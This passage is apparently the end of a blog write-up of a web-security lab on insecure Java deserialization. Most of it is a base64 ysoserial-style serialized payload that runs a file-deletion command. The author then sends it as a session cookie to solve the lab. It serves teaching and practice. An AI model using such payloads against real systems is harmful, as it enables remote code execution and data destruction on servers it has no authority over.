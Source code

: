 ```bash
TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjsBAAdo  
YW5kbGVyAQBBTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJp  
YWxpemF0aW9uSGFuZGxlcjsBAApTb3VyY2VGaWxlAQAMR2FkZ2V0cy5qYXZhDAAKAAsHACgBADN5  
c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9HYWRnZXRzJFN0dWJUcmFuc2xldFBheWxvYWQBAEBjb20v  
c3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5z  
bGV0AQAUamF2YS9pby9TZXJpYWxpemFibGUBADljb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50  
ZXJuYWwveHNsdGMvVHJhbnNsZXRFeGNlcHRpb24BAB95c29zZXJpYWwvcGF5bG9hZHMvdXRpbC9H  
YWRnZXRzAQAIPGNsaW5pdD4BABFqYXZhL2xhbmcvUnVudGltZQcAKgEACmdldFJ1bnRpbWUBABUo  
KUxqYXZhL2xhbmcvUnVudGltZTsMACwALQoAKwAuAQAacm0gL2hvbWUvY2FybG9zL21vcmFsZS50  
eHQIADABAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7DAAy  
ADMKACsANAEADVN0YWNrTWFwVGFibGUBABx5c29zZXJpYWwvUHduZXIyOTIwOTAyNjEwNjg1AQAe  
THlzb3NlcmlhbC9Qd25lcjI5MjA5MDI2MTA2ODU7ACEAAgADAAEABAABABoABQAGAAEABwAAAAIA  
CAAEAAEACgALAAEADAAAAC8AAQABAAAABSq3AAGxAAAAAgANAAAABgABAAAALwAOAAAADAABAAAA  
BQAPADgAAAABABMAFAACAAwAAAA/AAAAAwAAAAGxAAAAAgANAAAABgABAAAANAAOAAAAIAADAAAA  
AQAPADgAAAAAAAEAFQAWAAEAAAABABcAGAACABkAAAAEAAEAGgABABMAGwACAAwAAABJAAAABAAA  
AAGxAAAAAgANAAAABgABAAAAOAAOAAAAKgAEAAAAAQAPADgAAAAAAAEAFQAWAAEAAAABABwAHQAC  
AAAAAQAeAB8AAwAZAAAABAABABoACAApAAsAAQAMAAAAJAADAAIAAAAPpwADAUy4AC8SMbYANVex  
AAAAAQA2AAAAAwABAwACACAAAAACACEAEQAAAAoAAQACACMAEAAJdXEAfgAfAAAB1Mr+ur4AAAAy  
ABsKAAMAFQcAFwcAGAcAGQEAEHNlcmlhbFZlcnNpb25VSUQBAAFKAQANQ29uc3RhbnRWYWx1ZQVx  
5mnuPG1HGAEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZh  
cmlhYmxlVGFibGUBAAR0aGlzAQADRm9vAQAMSW5uZXJDbGFzc2VzAQAlTHlzb3NlcmlhbC9wYXls  
b2Fkcy91dGlsL0dhZGdldHMkRm9vOwEAClNvdXJjZUZpbGUBAAxHYWRnZXRzLmphdmEMAAoACwcA  
GgEAI3lzb3NlcmlhbC9wYXlsb2Fkcy91dGlsL0dhZGdldHMkRm9vAQAQamF2YS9sYW5nL09iamVj  
dAEAFGphdmEvaW8vU2VyaWFsaXphYmxlAQAfeXNvc2VyaWFsL3BheWxvYWRzL3V0aWwvR2FkZ2V0  
cwAhAAIAAwABAAQAAQAaAAUABgABAAcAAAACAAgAAQABAAoACwABAAwAAAAvAAEAAQAAAAUqtwAB  
sQAAAAIADQAAAAYAAQAAADwADgAAAAwAAQAAAAUADwASAAAAAgATAAAAAgAUABEAAAAKAAEAAgAW  
ABAACXB0AARQd25ycHcBAHh1cgASW0xqYXZhLmxhbmcuQ2xhc3M7qxbXrsvNWpkCAAB4cAAAAAF2  
cgAdamF2YXgueG1sLnRyYW5zZm9ybS5UZW1wbGF0ZXMAAAAAAAAAAAAAAHhwdwQAAAADc3IAEWph  
dmEubGFuZy5JbnRlZ2VyEuKgpPeBhzgCAAFJAAV2YWx1ZXhyABBqYXZhLmxhbmcuTnVtYmVyhqyV  
HQuU4IsCAAB4cAAAAAFxAH4AKXg=
```

We can see a payload is generated so let’s replace it with our cookie session.

![](https://miro.medium.com/max/770/1*EmPlhfJ-Z5uwTHOX_4iYGA.png)

![](https://miro.medium.com/max/770/1*ljZVD_mr0VPw0gJTiZO9qw.png)

And we can see we were able to complete the lab.

There are a lot of payloads to be tested so I recommend you build a bash or python script that will automate the process of payload generation. That is all for java serialization vulnerabilities. In the next blogs, we will see how serialization vulnerabilities work in PHP.

I will see you in the next blog till then. Happy Hacking ❤.

Peace out.

![](https://media.giphy.com/media/w89ak63KNl0nJl80ig/giphy.gif)
